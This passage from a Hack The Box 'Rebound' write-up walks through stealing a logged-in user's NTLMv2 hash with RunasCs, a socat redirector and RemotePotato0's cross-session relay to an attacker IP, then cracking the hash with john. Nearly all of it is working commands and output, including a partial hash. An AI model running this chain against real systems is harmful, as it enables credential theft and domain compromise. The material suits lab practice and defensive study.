 #### Step 1: Get session ID with `RunasCS` by running `qwinsta *`

```bash
PS C:\Users\winrm_svc\Documents> .\RunasCs.exe 'oorend' '[REDACTED]' "cmd /c qwinsta *" -l 9

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE 
>services                                    0  Disc                        
 console           tbrady                    1  Active     

```

#### Step 2: Start Rogue Oxid Resolver Listener (on attacker machine)
Start a listener on the attacker box:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.129.232.31:9999 
```

#### Step 3: Trigger Relay from winrm_svc Session to tbrady Session

```powershell
PS C:\Users\winrm_svc\Documents> .\RemotePotato0.exe -m 2 -s 1 -r 10.10.17.7 -x 10.10.17.7 -p 9999
[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on 10.10.17.7 to your victim machine on port 9998
[*] Example Network redirector: 
	sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:9998
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] RPC relay server listening on port 9997 ...
[*] Starting RogueOxidResolver RPC Server listening on port 9998 ... 
[*] IStoragetrigger written: 102 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 9998
[+] User hash stolen!

NTLMv2 Client	: DC01
NTLMv2 Username	: rebound\tbrady
NTLMv2 Hash	: tbrady::rebound:9a692de159731d19:55af3d2d50b41735af490f8b0436d908:01010000000000006aa29ec1...<SNIP>...000000000
```
And we get NTLMv2 hash of `tbrady`!

#### Step 4: Crack tbrady's hash
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ john tdrady.hash -w=/usr/share/wordlists/rockyou.txt                                        
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]    (tbrady)     
1g 0:00:00:07 DONE (2025-10-18 12:41) 0.1381g/s 1683Kp/s 1683Kc/s 1683KC/s 5449977..5435844
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```
